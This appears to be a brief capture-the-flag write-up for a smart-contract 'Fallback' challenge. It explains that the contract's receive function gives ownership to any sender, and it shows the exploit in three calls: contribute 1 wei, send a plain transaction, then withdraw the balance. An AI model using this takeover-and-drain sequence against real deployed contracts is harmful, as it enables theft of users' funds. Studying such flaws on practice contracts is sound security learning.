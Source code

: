 ## 1) Catch:
The poorly implemented fallback function "receive" changes an important logic of the contract
assigning the ownership to the last person who triggered this fallback by doing one this actions: <br>
    a) Calling an non existing function
    b) Calling an existing function without passing required data
    c) Sending ether to the contract without any data

## 2) Solutions.
    a) Wasting too much time and effort depositing 1001 times 0.001 ether each time so the ownership changes.
    b) Triggering the fallback function.

    Approach b) Sending 1wei to the contract will trigger the fallback function.

        await contract.contribute({value: 1}) // Because of the logic of the fallback, the user must contribute first.

        // Here is where the fallback is triggered
        await contract.sendTransaction({
        from: player,
        value: 1
        })

        // Because you are now the owner, this txn will go through.
        await contract.withdraw()